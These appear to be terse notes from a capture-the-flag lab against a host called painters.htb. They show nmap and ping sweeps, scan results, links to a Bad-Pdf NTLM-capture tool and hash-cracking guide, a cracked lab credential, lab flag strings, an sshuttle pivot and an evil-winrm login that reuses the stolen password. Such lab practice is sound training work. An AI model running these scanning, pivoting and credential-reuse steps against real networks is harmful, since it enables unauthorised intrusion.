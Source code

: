 nmap -sn 10.10.110.0/24

Nmap scan report for painters.htb (10.10.110.35)
Nmap scan report for 10.10.110.2

1 . 10.10.110.35  

22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)

https://github.com/deepzec/Bad-Pdf
https://zone13.io/cracking-ntlmv2-responses-captured-using-responder/

credential : riley : P@ssw0rd
ZEPHYR{HuM4n_3rr0r_1s_0uR_D0wnf4ll}

for i in {1..255}; do ping -c 1 -W 1 192.168.110.$i > /dev/null && echo 192.168.110.$i; done

192.168.110.1
192.168.110.51
192.168.110.52
192.168.110.53
192.168.110.54
192.168.110.55

arp | grep -v "incomplete"
192.168.110.56

sshuttle -r riley@10.10.110.35 192.168.110.0/24 -v
evil-winrm -i 192.168.110.56 -u 'painters\riley' -p 'P@ssw0rd'  

ZEPHYR{PwN1nG_W17h_P4s5W0rd_R3U53}